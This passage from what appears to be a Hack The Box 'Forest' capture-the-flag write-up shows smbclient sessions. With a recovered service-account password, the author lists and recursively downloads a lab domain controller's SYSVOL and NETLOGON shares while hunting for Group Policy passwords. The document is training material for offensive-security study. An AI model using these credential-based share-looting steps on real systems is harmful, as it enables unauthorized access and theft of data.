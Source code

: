 ```
smb: \> dir
  .                                   D        0  Wed Sep 18 20:45:49 2019
  ..                                  D        0  Wed Sep 18 20:45:49 2019

                5069055 blocks of size 4096. 2549457 blocks available
smb: \> exit
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ smbclient \\\\10.10.10.161\\SYSVOL -U 'svc-alfresco%s3rvice'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Sep 18 20:45:49 2019
  ..                                  D        0  Wed Sep 18 20:45:49 2019
  htb.local                          Dr        0  Wed Sep 18 20:45:49 2019

                5069055 blocks of size 4096. 2549457 blocks available
smb: \> cd htb.local
smb: \htb.local\> dir
  .                                   D        0  Wed Sep 18 13:58:53 2019
  ..                                  D        0  Wed Sep 18 13:58:53 2019
  DfsrPrivate                      DHSr        0  Wed Sep 18 13:58:53 2019
  Policies                            D        0  Wed Sep 18 20:45:57 2019
  scripts                             D        0  Wed Sep 18 20:45:49 2019

```
- let download shares and analysis for passwords especially after found it in my first box [Active-HTB](https://blackninja23.github.io/Active-HTB/) in which it was CVE-2014-1812(MS14-025)

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ smbclient \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco'%'s3rvice' -c 'prompt;recurse;mget *'
                                                                                                             
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ ls -a
.  ..
                                                                                                             
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ smbclient \\\\10.10.10.161\\SYSVOL -U 'svc-alfresco'%'s3rvice' -c 'prompt;recurse;mget *'
NT_STATUS_ACCESS_DENIED listing \htb.local\DfsrPrivate\*
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \htb.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as htb.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (0.7 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \htb.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3834 as htb.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.6 KiloBytes/sec) (average 0.8 KiloBytes/sec)
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ 
```
- After somewhile, there is no CVE-2014-1812(MS14-025)  in this share called SYSVOL and nothing interesting
- Since i can login, let login
